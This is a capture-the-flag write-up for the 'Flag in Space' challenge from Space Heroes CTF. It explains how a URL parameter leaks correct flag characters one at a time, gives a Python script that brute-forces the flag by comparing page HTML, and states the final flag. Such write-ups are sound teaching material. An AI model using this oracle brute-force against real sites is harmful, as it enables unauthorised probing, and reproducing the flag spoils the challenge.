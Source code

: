 # Flag in Space
**Author of Writeup**: S|{oto

**Author of Challenge**: v10l3nt

**CTF**:  Space Heroes CTF

**Description**:

*“The exploration of space will go ahead, whether we join in it or not.”*

*- John F. Kennedy*

*http://172.105.154.14/?flag=*

*Author: v10l3nt*

**Hints**: n/a

Looking at the challenge website, we see that there are 25 empty squares.

To solve the challenge, we begin by examining the URL.  Clearly, the `flag=` field is looking for us to input a flag.  By tinkering with the URL, we can see that changing the URL to `flag=shctf{}` fills the first six boxes on the website with the characters `s` `h` `c` `t` `f` `{`.  Since the closing bracket is not placed into a seventh box, apparently boxes are only filled in with correct characters from the flag.

Since we now know that only putting correct characters into the URL will change the website, we can write a simple python script to brute-force the flag.

```python
import webbrowser
import urllib.request

url = "http://172.105.154.14/?flag="

# Get the HTML of the website before any flag is input
html1 = urllib.request.urlopen(url).read().decode("utf8")

# Check all possible characters to fill each of the 25 boxes
for box in range(25):
    # Test all the valid standard characters for a URL, as well as { and }
    for char in list("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-._~:/?#[]@!$&'()*+,;={}"):
        # Get the HTML of the website after appending different chars to the URL
        html2 = urllib.request.urlopen(url + char).read().decode("utf8")

        # If appending a char changed the HTML, then that char must have led
        # to one of the boxes being filled, and is therefore correct
        if (html1 != html2):
            # update URL and associated HTML
            url = url + char
            html1 = html2
            break  # correct character for this box has been found, move to next box

# correct flag has been assembled, open the browser as a final check
webbrowser.open(url)
```

Once the script has finished running, we can simply look at the URL to find that the flag is `shctf{2_explor3_fronti3r}`.
